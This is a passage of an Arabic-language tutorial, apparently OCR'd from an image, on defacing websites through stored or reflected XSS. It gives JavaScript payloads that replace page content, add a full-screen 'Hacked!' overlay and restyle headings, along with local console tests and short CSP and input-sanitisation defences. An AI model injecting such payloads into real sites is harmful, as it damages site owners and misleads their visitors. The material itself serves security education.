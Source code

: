          python3 -m http.server 80
         ```
         - مع ملف الصورة (زي `hacker.png`).
     - **اختبار محلي**:
       - في الـ Console:
         ```javascript
         document.body.innerHTML = "<h1>Test Defacement!</h1>";
         ```
         - الأمر ده بيستبدل الصفحة كلها.
   - **إزاي بيحط السكربت؟**
     - Stored أو Reflected XSS.
   - **الحماية**:
     - استخدم CSP عشان تمنع تغيير محتوى الصفحة.
     - نظف المدخلات عشان تمنع السكربتات.

#### 4. **إضافة Pop-up أو Overlay**
   - **إزاي بتحصل؟**
     - السكربت بيعمل نافذة منبثقة (popup) أو طبقة (overlay) تغطي الصفحة وتعرض رسالة أو محتوى المهاجم.
   - **الأوامر أو المفاهيم اللي بتُستخدم**:
     - **سكربت JavaScript (نظري)**:
       ```javascript
       var overlay = document.createElement("div");
       overlay.style.position = "fixed";
       overlay.style.top = "0";
       overlay.style.left = "0";
       overlay.style.width = "100%";
       overlay.style.height = "100%";
       overlay.style.background = "rgba(0,0,0,0.8)";
       overlay.innerHTML = '<div style="margin: 100px auto; width: 300px; background: white; padding: 20px; text-align: center;">' +
                           '<h2>Hacked!</h2>' +
                           '<p>This site is compromised!</p>' +
                           '</div>';
       document.body.appendChild(overlay);
       ```
       - `style.position = "fixed"`: بيخلي الـ overlay يغطي الصفحة كلها.
       - `innerHTML`: بيضيف محتوى الـ popup.
     - **اختبار محلي**:
       - في الـ Console:
         ```javascript
         var div = document.createElement("div");
         div.innerHTML = "<h2>Test Popup!</h2>";
         document.body.appendChild(div);
         ```
   - **إزاي بيحط السكربت؟**
     - Stored أو Reflected XSS.
   - **الحماية**:
     - استخدم CSP عشان تمنع إضافة عناصر ديناميكية.
     - نظف المدخلات.

#### 5. **تغيير أنماط الصفحة (CSS Injection عبر XSS)**
   - **إزاي بتحصل؟**
     - السكربت بيغيّر أنماط الصفحة (زي الألوان، الخطوط، أو الخلفية) عشان يغيّر شكلها.
   - **الأوامر أو المفاهيم اللي بتُستخدم**:
     - **سكربت JavaScript (نظري)**:
       ```javascript
       document.body.style.background = "black";
       document.body.style.color = "red";
       document.querySelectorAll("h1").forEach(function(h1) {
           h1.style.textAlign = "center";
           h1.innerText = "Hacked!";
       });
       ```
       - `style`: بيغيّر خصائص CSS للعناصر.